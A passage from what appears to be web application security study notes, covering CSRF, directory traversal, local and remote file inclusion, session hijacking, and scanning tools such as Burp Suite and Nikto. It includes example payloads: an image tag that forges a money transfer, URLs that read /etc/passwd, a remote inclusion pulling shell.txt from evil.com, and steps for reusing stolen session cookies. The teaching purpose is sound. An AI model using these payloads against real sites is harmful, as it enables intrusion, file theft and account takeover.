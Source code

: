   - Executes for all visitors viewing the comment.

#### 4.2 Cross-Site Request Forgery (CSRF)

- Example:

  ```html
  <img src="http://target.com/transfer?amount=10000&to=attacker" />
  ```

  When a logged-in user visits the attacker’s page, their browser automatically sends a request to the target with valid session cookies.

#### 4.3 Directory Traversal

- Example:

  ```
  http://target.com/view.php?file=../../etc/passwd
  ```

  Accesses files outside the web root directory.

#### 4.4 File Inclusion

- Local File Inclusion (LFI)

  Example:

  ```
  http://target.com/index.php?page=../../etc/passwd
  ```

- Remote File Inclusion (RFI)

  Example:

  ```
  http://target.com/index.php?file=http://evil.com/shell.txt
  ```

#### 4.5 Session Hijacking

- Example:
  - Intercept an HTTP request with a tool like Burp Suite.
  - Capture `PHPSESSID` or `JSESSIONID` from cookies; reuse it to impersonate the user.

------

### 5. Web Application Tools & Techniques

- Burp Suite
  - Proxy for intercepting/modifying requests, scanning vulnerabilities, brute forcing forms.
- OWASP ZAP
  - Open-source alternative for proxying and scanning.
- Nikto
  - Web server scanner, checks for common misconfigurations and vulnerabilities.
- Wapiti, Skipfish
  - Automated scanners for common web flaws.
